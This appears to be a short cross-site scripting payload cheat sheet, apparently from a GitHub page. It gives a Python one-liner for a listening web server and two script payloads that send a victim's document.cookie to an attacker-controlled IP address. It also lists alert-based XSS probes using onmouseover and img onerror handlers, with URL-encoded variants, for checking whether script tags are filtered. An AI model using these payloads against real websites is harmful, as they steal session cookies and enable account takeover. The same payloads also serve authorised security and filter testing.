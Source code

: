 Steal Cookies
-----------------------
```
# Use ruby SSL server for SSL connections
# Start Python Web Server
python -m SimpleHTTPServer 80

<script>document.location="http://192.168.0.60/?c="+document.cookie;</script>
<script>new Image().src="http://192.168.0.60/index.php?c="+document.cookie;</script>
```
Mouseover test
-----------------------
```javascript
<a href="" onmouseover="javascript:alert('HackerOne MkSecurity Dom XSS');">Click for Detail</a>
```

Use to test if script "<script>alert(123)</script>" tags are being blocked
-----------------------
```javascript
ackerokm7x<img src=a onerror=alert(1)>y09fr
ackerokm7x<img%20src=a%20onerror=alert(1)>y09fr
```
